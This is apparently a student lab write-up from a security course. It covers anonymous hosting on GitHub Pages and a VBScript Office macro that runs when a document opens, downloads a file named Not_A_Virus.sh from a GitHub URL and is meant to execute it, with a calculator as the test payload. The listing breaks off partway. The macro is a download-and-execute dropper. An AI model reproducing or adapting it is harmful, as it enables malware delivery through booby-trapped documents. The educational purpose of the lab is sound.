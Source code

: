 \section{Challenge 1}

\textit{\textbf{Task:} Try to create a free domain with no information about the registrant, if possible, create a webpage and upload a file that can be downloaded with an HTTP request.}

We chose to use Github Pages as it keeps most of the user information private, for example: email address, private repositories, security logs, private contributions, etc. The only information that is public is: username, profile picture, biography, and location (if provided), public repositories, followers/following and activity, which includes public contributions such as commits, pull requests, issues, and discussions. As can be seen, if any sensitive information is provided by the attacker in the optional fields, there is no way to know someone's identity using the information that github provides.

The repository can be found at: \href{https://github.com/Aleshhh/ucases-s4.github.io}{https://github.com/Aleshhh/ucases-s4.github.io}.


\section{Challenge 2}
\label{sec:2}

\textit{\textbf{Task:} Write a VBScript that downloads a batch script from your domain and executes it. The content of the batch script has to execute the Windows Calculator.}

Our VBS code must download the bash file from the repository, which opens the calculator, and execute it. The implementation is as follows:

\begin{codesnippet}[H]
    \caption[VBS Code]{Downloading Code (VBS)}
    \begin{lstlisting}[frame=none]
    Private Sub Document_Open()
        ' VBScript to download a file from the internet

        Dim httpRequest, stream
        Set httpRequest = CreateObject("MSXML2.XMLHTTP")
        
        ' Specify the URL of the file to download
        Dim fileUrl
        fileUrl = "https://raw.githubusercontent.com/Aleshhh/ucases-s4.github.io/main/Not_A_Virus.sh"
        
        ' Specify the path where the file should be saved
        Dim filePath
        filePath = ".\Not_A_Virus.sh"
        
        ' Open the HTTP request
        httpRequest.Open "GET", fileUrl, False
        httpRequest.Send

        If httpRequest.Status = 200 Then
    \end{lstlisting}
\label{code:macro}
\end{codesnippet}

